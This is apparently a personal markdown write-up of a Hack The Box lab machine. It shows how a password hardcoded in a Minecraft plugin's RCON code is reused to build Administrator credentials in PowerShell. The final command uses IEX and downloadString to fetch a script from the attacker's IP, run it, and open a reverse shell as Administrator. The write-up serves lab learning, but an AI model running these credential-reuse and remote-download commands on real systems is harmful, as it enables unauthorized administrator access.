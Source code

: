 # powershell
- simple modified powershell can be used to gain access from one user to another using but it needs what is know as password

assume we have managed to get a shell and we have meet something like this maybe 
```
public final class Playercounter extends JavaPlugin {  
  public void onEnable() {  
    Rcon rcon = null;  
    try {  
      rcon = new Rcon("127.0.0.1", 27015, "s67u84zKq8IXw".getBytes());  
    } catch (IOException e) {  
      throw new RuntimeException(e);  
    } catch (AuthenticationException e2) {  
      throw new RuntimeException(e2);


This issue can be referenced from a craft machine from hack the box
```

- If we try to discete the code we can see that is trying to create a playercounter plugin with a onEnable() method being enabled, with the method we can see the the is a Rcon class which tried to establish remote connection with the above port,ip and password as "s67u84zKq8IXw". first it will try to connect and if the authentication fails it throws an exceptions error and it will stop loading the plugin

- now lets see how we can abuse this into getting a shell as an adminstrator, first we will need the following credential object based parameter

# Create string  that will store our password

we need to create an object based paramater that will carry our credentials lets begin with a string to hold the creds

```
PS C:\Users\svc_minecraft\server\plugins> $SecPass = ConvertTo-SecureString 's67u84zKq8IXw' -AsPlainText -Force  

we can try to make a secure password conversion 
```

# After we have store our password lets create a new object named creds that will hold this creds with a respective administrator username
```
PS C:\Users\svc_minecraft\server\plugins> $cred = New-Object System.Management.Automation.PSCredential('Administrator',$SecPass)  

```

# after that the last part will be using this object to get a shell
```
PS C:\Users\svc_minecraft\server\plugins> Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.79:8080/reverse_shell.ps1')" -Credential $cred
```
what we have done so above is that we  have initilize the process that will execute the download a powershell script from our machine and execute it and we get a reverse shell


N/B: This powershell script is from nishang but also you can get it from here


